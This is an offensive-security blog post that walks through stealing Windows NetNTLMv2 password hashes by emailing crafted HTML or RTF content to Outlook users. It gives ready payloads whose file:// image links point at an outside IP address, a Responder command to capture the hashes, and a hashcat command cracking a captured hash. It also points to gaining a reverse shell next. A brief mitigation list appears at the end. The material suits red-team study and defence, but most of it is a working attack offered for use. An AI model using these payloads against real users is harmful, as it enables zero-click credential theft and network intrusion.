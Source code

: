 ```yaml
---
layout: post
title: "2024-06-18-netntlmv2 hash stealing using outlook"
date: 2024-06-18
categories: initial-access
tags: redteam, mitre, killchain, offensivesecurity, cpent, cpts, oscp, exploit
permalink: /netntlmv2-hash-stealing-using-outlook/
---
```


# NetNTLMv2 hash stealing using Outlook

## Context

If a target system is not running the latest version of Windows/Outlook, it may be possible to craft such an email that allows an attacker to steal the victim's NetNTLMv2 hashes without requiring any interaction from the user - clicking the email to preview it is enough for the hashes to be stolen.

```
Note that this attack does not work on the most up to date version of Windows 10 and Outlook 2016 versions, so like always - patch early and often.
```

## Weaponization

Let's create a new HTML file with the below:

{% code title="message.html" %}
```markup
<html>
    <h1>holla good sir</h1>
    <img src="file://157.230.60.143/download.jpg">
</html>
```
{% endcode %}

An RTF file also works:

{% code title="message.rtf" %}
```javascript
{\rtf1{\field{\*\fldinst {INCLUDEPICTURE "file://157.230.60.143/test.jpg" \\* MERGEFORMAT\\d}}{\fldrslt}}}
```
{% endcode %}

Then insert a new file by clicking the attachment icon at the top on the window title bar:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-09-57.png>)

Select the malicious messge.html and select `Insert as Text`:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-07.png>)

You should see that your message now looks like an HTML with a broken image (expected in our case since the path to the image is fake):

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-11-47.png>)

## Execution

Fire up `Responder` to listen for incoming SMB authentication requests from the victim

{% code title="attacker@kali" %}
```csharp
responder -I eth1 -v
```
{% endcode %}

..and send the malicious email to the victim.

## Victim View

Once the victim opens their Outlook and clicks on the malicious email to preview it, their machine will attempt authenticating to the attacker controlled server (running Responder). This will give away the victim's `NetNTLMv2` hashes to the attacker, which they can then attempt at cracking:

![](<../../.gitbook/assets/Peek 2018-12-28 15-05.gif>)

Once the hash is stolen, we can attempt cracking it:

{% code title="attacker@kali" %}
```csharp
hashcat -m5600 'spotless::OFFENSE:6bdb56c8140cf8dc:FFEF94D55C2EB2DE8CF13F140687AD7A:0101000000000000A5A01FB2BE9ED401114D47C1916811640000000002000E004E004F004D00410054004300480001000A0053004D0042003100320004000A0053004D0042003100320003000A0053004D0042003100320005000A0053004D004200310032000800300030000000000000000000000000200000407D7D30819F03909981529F6ACA84502CFCC8B3555DBA34316F8914973DD03C0A0010000000000000000000000000000000000009001A0063006900660073002F00310030002E0030002E0030002E0035000000000000000000' -a 3 /usr/share/wordlists/rockyou.txt --force --potfile-disable
```
{% endcode %}

In this case, we can see the user had a ridiculously simple password, which got cracked immediately:

![](<../../.gitbook/assets/Screenshot from 2018-12-28 15-16-46.png>)

The next step would be to use Ruler to gain a reverse shell from the victims corporate network:

{% content-ref url="password-spraying-outlook-web-access-remote-shell.md" %}
[password-spraying-outlook-web-access-remote-shell.md](password-spraying-outlook-web-access-remote-shell.md)
{% endcontent-ref %}

## Mitigation

* Patch Windows and Outlook
* Block outgoing SMB connections to the Internet
* Read emails in plain text
* Enforce strong passwords

## References

{% embed url="https://www.nccgroup.trust/uk/about-us/newsroom-and-events/blogs/2018/may/smb-hash-hijacking-and-user-tracking-in-ms-outlook/" %}
@spotheplanet
